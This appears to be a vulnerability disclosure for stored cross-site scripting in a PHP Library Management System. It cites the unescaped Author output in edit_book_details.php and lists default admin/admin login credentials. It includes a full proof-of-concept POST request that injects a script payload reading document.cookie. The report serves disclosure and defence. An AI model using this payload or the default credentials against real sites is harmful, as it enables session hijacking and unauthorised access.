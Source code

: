 # Library Management System v1.0 by kingbhob02 has Stored Cross-Site Scripting

# BUG_Author: z1pwn

# Date: 07.22.2022

Login account: admin/admin (Super Admin account)

# Software:

https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html

#Description： #The Line 278 of edit_book_details.php sends unvalidated data to a web browser, which can result in the browser executing malicious code.

#echo $edit_book_details->Author;

#PoC：

```sql
POST /LMS/librarian/edit_book_details.php?id=192 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/LMS/librarian/edit_book_details.php?id=192
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=7v8p4p3goshl3b4fkncu3bh9ui
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 161

Section=Filipiniana&Subject=1&book=1&Copyright=1&Title=1&availability=1&Author=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&ISBN=1&status=DAMAGE&submit=
```


